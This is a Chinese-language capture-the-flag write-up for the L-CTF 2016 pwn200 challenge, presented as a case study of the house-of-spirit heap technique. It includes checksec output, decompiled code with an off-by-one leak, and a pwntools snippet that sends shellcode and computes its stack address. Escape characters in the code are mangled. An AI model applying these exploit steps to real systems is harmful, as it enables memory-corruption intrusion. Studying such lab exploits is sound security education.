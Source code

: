 ### <a class="reference-link" name="L-CTF2016%20pwn200%EF%BC%88%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF1%EF%BC%89"></a>L-CTF2016 pwn200（利用场景1）

2016L-CTF的pwn题，解题思路不唯一，但这题是一个学习house of spirit的好案例。

[下载地址](https://pan.baidu.com/s/1kVIyYer)

**分析**

本题少见的NX是关掉的题目，通过Hose of spirit的在栈空间申请一个fake chunk，实现栈中的越界读写。

```
gef➤  checksec
[+] checksec for '/home/p0kerface/Documents/house of spirit/pwn200'
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

**存在两个漏洞点**
- 出存在一个off by one。写入48个字节，v2字符串会缺少x0结尾，就可以造成越界读取栈底（RBP）的值。
```
int sub_400A8E()
`{`
  signed __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h]

  puts("who are u?");
  for ( i = 0LL; i &lt;= 47; ++i )
  `{`
    read(0, &amp;v2[i], 'x01');
    if ( v2[i] == 'n' ) //为字符串添加 x0 结尾
    `{`
      v2[i] = '';
      break;
    `}`
  `}`
  printf("%s, welcome to xdctf~n", v2);
  puts("give me your id ~~?");
  read_option();
  return sub_400A29();
`}`

```

​ 将shellcode作为48字节的一部分写入v2数组，同时通过EBP地址可以计算出shellcode_addr(v2数组起始地址)。内存状态如下图所示。

```
p.recvuntil("who are u?n")
p.sendline(shellcode.ljust(48,"x00"))
p.recv(48)
shellcode_addr=u64(p.recv(6).ljust(8,"x00"))-0x50
print "Shellcode address="+hex(shellcode_addr)
```
